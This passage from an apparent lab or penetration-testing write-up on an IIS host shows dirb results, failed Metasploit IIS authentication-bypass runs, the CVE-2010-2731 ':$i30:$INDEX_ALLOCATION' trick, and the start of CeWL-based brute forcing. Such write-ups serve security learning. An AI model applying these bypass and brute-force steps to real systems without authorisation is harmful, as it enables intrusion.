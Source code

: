```shell_session
+ http://192.168.1.11/printers (CODE:401|SIZE:4431)                                                                                                                                                                                                                             

-----------------
END_TIME: Sat Jun  3 17:10:39 2017
DOWNLOADED: 58 - FOUND: 2
```

Both directories that dirb found were not viewable, `/iisadmin` was seemingly restricted to local access from the server side, and `/printers` required HTTP authentication; possibly sharing the same credentials as `/localstart.asp`.

## Bypassing HTTP Authentication
A quick search of the Metasploit IIS modules revealed that there is an auxiliary module (`auxiliary/admin/http/iis_auth_bypass`) which may help bypass the authentication on the URLs found using Nikto and dirb:

> This module bypasses basic authentication for Internet Information
Services (IIS). By appending the NTFS stream name to the directory
name in a request, it is possible to bypass authentication.

The first path I tried this with was `/printers`, but it failed:

```shell_session
msf auxiliary(iis_auth_bypass) > set RHOST 192.168.1.11
RHOST => 192.168.1.11
msf auxiliary(iis_auth_bypass) > set TARGETURI /printers
TARGETURI => /printers
msf auxiliary(iis_auth_bypass) > run

[-] The bypass attempt did not work
[*] Auxiliary module execution completed
```

Nor did it work for `/localstart.asp`

```shell_session
msf auxiliary(iis_auth_bypass) > set TARGETURI /localstart.asp
TARGETURI => /localstart.asp
msf auxiliary(iis_auth_bypass) > run

[-] The bypass attempt did not work
[*] Auxiliary module execution completed
```

After this module failed to bypass the authentication, I searched around and found [CVE-2010-2731](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2731); a vulnerability which allows the bypassing of authentication by appending `:$i30:$INDEX_ALLOCATION` to the end of adirectory name in the GET request. I tried this with both `/iisadmin` and `/printers`, but both still prompted for authentication.

## HTTP Brute Forcing
As exploiting vulnerabilities to bypass authentication wasn't working, I used CeWL to create a custom word list based on the home page that was being served from IIS in an attempt to brute force the login.
